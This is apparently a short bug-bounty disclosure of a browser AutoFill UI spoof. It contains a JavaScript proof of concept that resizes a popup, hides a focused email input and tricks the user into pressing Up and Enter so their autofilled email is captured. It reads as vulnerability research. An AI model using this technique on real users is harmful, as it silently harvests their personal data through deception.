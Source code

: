 ```yaml
---
title: AutoFill UI spoof (Awarded $1000)
---
```


AutoFill is not be meant to be usable via keyboard shortcuts when its hidden.  
But with a certain window size it would attempt to render over the url bar.

```js
let w = window.open("", "", "width=1,height=1");
w.resizeTo(250,150);
w.eval(`
let input = document.createElement("input");
input.type = "email";
input.autocomplete = "email";
input.name = "email";
input.size = "1";
input.style.opacity = '0';
input.onkeypress = e => {
    e.preventDefault();
}
window.onmousedown = e => {
    // ignore mouse clicks
    e.preventDefault();
}
input.onchange = e => {
    alert(e.srcElement.value);
    e.srcElement.value = "";
}
document.body.appendChild(input);
setInterval(() => {
    input.focus({preventScroll: true});
}, 1000);
`);
let p = document.createElement('p');
p.innerText = 'Please press the Up arrow then Enter :)';
w.document.body.appendChild(p)
```
